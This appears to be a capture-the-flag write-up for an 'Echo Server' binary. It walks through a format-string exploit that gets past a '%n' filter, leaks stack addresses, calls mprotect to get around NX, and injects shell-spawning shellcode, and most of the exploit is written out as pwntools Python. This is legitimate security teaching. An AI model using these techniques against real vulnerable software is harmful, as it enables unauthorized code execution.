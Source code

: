 # Echo Server

Final code is at `soln.py`. The binary itself is at `./echoserver`.

Open the binary in ghidra. The executable is basically:
```
while (true) {
    retrieve 12 characters
    strip out all "%n"
    print them
}
```

By trying inputs like `%x` etc it is clear that format string attacks is a
reasonable approach. Let us attempt to write shellcode somewhere and execute it.

First of all the alarm can be quite annoying. We can disable this in gdb via
`handle SIGALRM ignore`.

We can attempt to use the `%n` format to write bytes somewhere. However we note
that the program removes `%n` if it is present in the input. Fortunately we can
bypass this by using the parameter field in the form of `%x$n` where `x` is the
parameter number (in this case, location of the stack).

Another problem is that 12 characters is rather short to write shellcode.
I originally thought that you can only make this shorter, since if you write
`AA...AA%x$n` the number of characters before the format string is < 12 and
hence writing it to the location of 12 will only reduce the number. After some
thought, however, you need not write the number to a location that is aligned
with the word size.

Basically, the location of the length of the input is at `stack + 1054`. If we
write at that location, the number written will be < 12:
```
before | 00 00 00 0c | (for 12)
after  |[00 00 00 04]| (for 4)
```

However, we can write at `stack + 1053`, and we can get some number like
`4 x ff + 12` instead:
```
before     | 00 00 00  0c | (for 12)
after  [00 | 00 00 04] 0c | (for 4)
```

So this is what we are doing:
```python
def send(s):
    r.recvline()
    r.sendline(s)
    return r.recvline()

# leak stack addr
s = int(send("%148$x").decode().strip(), 16)
esp = s - 682

# leak return address
ret = int(send("%264$x").decode().strip(), 16) - 4

# expand buffer
send(b"abcd" + p32(esp + 1053) + b"%6$n")

# fix corrupted return address
write(esp + 4 * 264, ret + 4)
```

We are leaking the stack address since the binary is compiled with ASLR. The
location of where the payload is targeting itself is kind of guesswork (just
find something in the stack that is near the current esp, and then make the
necessary adjustments).

The leaking of return address is actually not necessary since it is a fixed
offset from the esp but here I am doing it anyways.

Then, we do the buffer expansion by writing to `esp + 1053`. Afterwards
we need to write back to `ret + 4` since writing to `esp + 1053` (which is not
word aligned) corrupts this address.

Another problem is that this binary is compiled with NX, which means that
writable regions are not executable. Fortunately we can use `mprotect` to
make it executable. Also this `mprotect` function is somehow statically compiled
so we're super lucky here.

```python
def write(loc, what):
    while what > 0:
        next_byte = what & 0xff
        # print(hex(loc), hex(next_byte))

        if next_byte < 4:
            send(b"A" * next_byte + b"%7$n" + b"A" * (4 - next_byte) + p32(loc) + b"\n")
        else:
            send(p32(loc) + b"A" * (next_byte - 4) + b"%5$n\n")

        loc += 1
        what >>= 8

# call mprotect on return, then go back to main
write(ret, context.binary.symbols['mprotect'])
write(ret + 4, context.binary.symbols['main'])
write(ret + 8, 0x8048000)
write(ret + 12, 0x1000)
write(ret + 16, 7)
```

Afterwards, we modify the stack so that
1. Some value becomes 1 (because the loop is actually `while (some value == 0)`)
   and we can exit from the loop

   ```python
   write(esp + 0xd4c4 - 0xd0b0, 1)
   ```

2. It jumps to `mprotect` (see above) with the parameters `0x8048000` (start of
   page to write), `0x1000` (length of memory to make executable), `7` (for rwx)
3. It jumps to `main` afterwards (see above)

Now, we are back in `main`, and we can write shellcode to `0x8048000` and
execute it. One problem is that we cannot write to addresses with `10` with it
as it corresponds to `\n`. However, we can write to `0x8048020` instead.

The first line below `esp += 16` is just trial and error really.
```python
esp += 16

# leak return address
ret = u32(send("%264$x")[:4])
print(ret)

# expand buffer
send(b"abcd" + p32(esp + 1053) + b"%6$n")

# fix corrupted return address
write(esp + 4 * 264, ret + 4)

def str_to_int(s):
    n = 0
    for c in s:
        n *= 256
        n += c
    return n

# write shellcode
write(0x8048020, str_to_int(reversed(asm(shellcraft.sh()))))
# jump to shellcode
write(ret, 0x8048020)

# get out
write(esp + 0xd4c4 - 0xd0b0, 1)

r.interactive()
```

Then we get shell.
